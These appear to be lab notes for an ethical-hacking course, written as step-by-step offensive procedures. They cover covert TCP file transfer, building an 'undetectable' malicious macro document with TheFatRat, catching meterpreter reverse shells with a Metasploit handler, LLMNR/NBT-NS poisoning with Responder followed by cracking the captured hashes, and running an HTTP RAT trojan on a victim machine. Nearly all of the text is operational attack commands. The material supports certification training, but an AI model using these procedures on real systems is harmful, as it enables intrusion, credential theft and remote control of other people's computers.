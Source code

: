 - ***mkdir receive***
- ***cd receive***
- Copy covert\_tcp.c from shared path
- ***cc -o covert\_tcp covert\_tcp.c***
- To receive message start a listener using ***./covert\_tcp -dest 10.10.10.9 -source 10.10.10.11 -source\_port 9999 -dest\_port 8888 -server -file /home/ubuntu/Desktop/receive/receive.txt***| -dest <destination/receiver IP> -source<sender IP> -file <file path to store received file>


**TheFatRat – Create malicious office Documents Payload and malicious file creation**

**Note: FUD (Fully Undetectable Crypter)**

- start terminal 
- Run commnd ***fatrat*** | takes time to load
- Choose [6] à [3] à <LHOST IP> à <LPORT> à <payload name> à [3] à Enter to create payload
- Choose [7] à [2] à <LHOST IP> à <LPORT> à <malicious doc name> à <choose text or leave default> à <Enter path of previous custom payload /root/TheFatRat/output/payload.exe> à
  - à Enter 
- Host payload using previously shown methods or run ***python -m SimpleHTTPServer*** for easy hosting


**Listener Setup**

- Type ***use exploit/multi/handler***.
- Type ***set payload windows/meterpreter/reverse\_tcp***.
- Type ***set LHOST 10.10.10.11***.
- Type ***set LPORT 4444***.
- Start listener, type ***run***


**Execute Exploit**

- Download word file from hosting URL
- Open and enable macros
- Meterpreter session will be started on msfconsole


**Responder – LLMNR and NBT-NS Poisoning**

- Use windows 10 credentials Jason:qwerty
- Run command ***responder -I eth0*** in Kali | “**-I**” is in CAPS
- Try to open a share [\\ceh-tools](../../../%5C%5Cceh-tools) from windows 10 machine. Responder will send fake replies. | Windows will use, LLMNR on UDP/5355 or NBT-NS on UDP/137 and will listen for broadcasts.
- User will enter credentials and hash will be intercepted by responder
- Responder log files in **usr\share\responder\logs**
- Use  john  the  ripper  to  crack  the  password  using  command ***john /usr/share/responder/logs/<file name of the logs.txt>*** | here file is **SMBv2-NTLMv2-SSP- 10.10.10.10.txt**



                                                                        *MALWARE THREATS*



**HTTP RAT TROJAN**

- Web server trojan which allows access to victim’s machine via a web browser
- Run httprat.exe
- Disable the notification option.
- Set server port 84. And create the httpserver.exe
- Run this httpserver.exe on the victim machine.
- Browser victim’s IP from attacker’s machine to gain web access to the victim
- You can view processes, system info, view drives and directories
